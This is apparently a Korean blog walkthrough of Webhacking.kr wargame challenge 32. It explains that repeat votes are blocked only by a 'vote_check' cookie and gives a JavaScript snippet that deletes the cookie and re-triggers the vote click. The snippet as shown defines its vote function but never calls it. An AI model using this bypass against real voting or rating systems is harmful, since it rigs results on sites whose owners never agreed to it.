 ```yaml
---
layout: post
title: "[풀이] Webhacking.kr 32번 문제"
description: ""
date: 2017-05-11
tags: []
comments: true
share: true
---
```


32 번 문제는 150 스코어의 문제입니다.

문제를 보면, 100명의 리스트가 존재합니다.

하단에 입장에 버튼이있는데 해당 버튼을 누르면 100명의 리스트에 제 계정이 추가됩니다.  
  
이후 본인 계정에 클릭을하게되면 vote up 이 됩니다.  
이후 스코어 1점이 추가되는데, 추가 이후에 추천을 누르면 `no` 메세지와 함께 추천이 안됩니다.  
  
요소를 보니 클릭 시, 아래와 같은 이벤트가 발생합니다.  
location.href='?hit='본인 계정'

  
추천과 동시에 `vote_check` 쿠키가 하나 생성됩니다.

보아하니 쿠키로 구분하여 추천 여부를 판별하는 것 같습니다.  
  
일단 저는 아래와 같이 간단하게 스크립트를 하나 작성했습니다.  
코드의 내용은 `vote_check` 라는 쿠키를 지운 후, 추천 요청을 하는 것 입니다.  
  
특성 상, 이벤트가 발생하면 페이지가 새로 로드되기 때문에 저는 사용하고있는 크롬 확장 프로그램을 통하여 해당 스크립트를 기입해 문제를 해결
했습니다.

  

하단에 소스 코드를 기재했습니다.

코드 상 셀렉트 부분을 참고하시면

onclick^="location.href='+"'?hit=hax0r'"+'" 이라 되어있는데, 여기서 hax0r 을 보인 계정으로
치환하시면 됩니다.

hax0r 은 제 계정이에여.

  

![](/assets/images/posts/743/2463304A591415CB017CFE.JPEG)

  

    var delCookie = function(name) {    document.cookie = name + '=;expires=Thu, 01 Jan 1970 00:00:01 GMT;';};/* Node Select 를 위해 Jquery 비동기 로드 */(function () {    function loadScript(url, callback) {        var script = document.createElement("script")        script.type = "text/javascript";        if (script.readyState) { //IE            script.onreadystatechange = function () {                if (script.readyState == "loaded" || script.readyState == "complete") {                    script.onreadystatechange = null;                    callback();                }            };        } else { //Others            script.onload = function () {                callback();            };        }        script.src = url;        document.getElementsByTagName("head")[0].appendChild(script);    }    loadScript("https://ajax.googleapis.com/ajax/libs/jquery/1.6.1/jquery.min.js", function () {             console.log('jquery loaded');            /* 계정 vote */var voteUpMe = function(e) {  delCookie('vote_check');  $('tr[onclick^="location.href='+"'?hit=hax0r'"+'"]').trigger('click');}     });})();

  

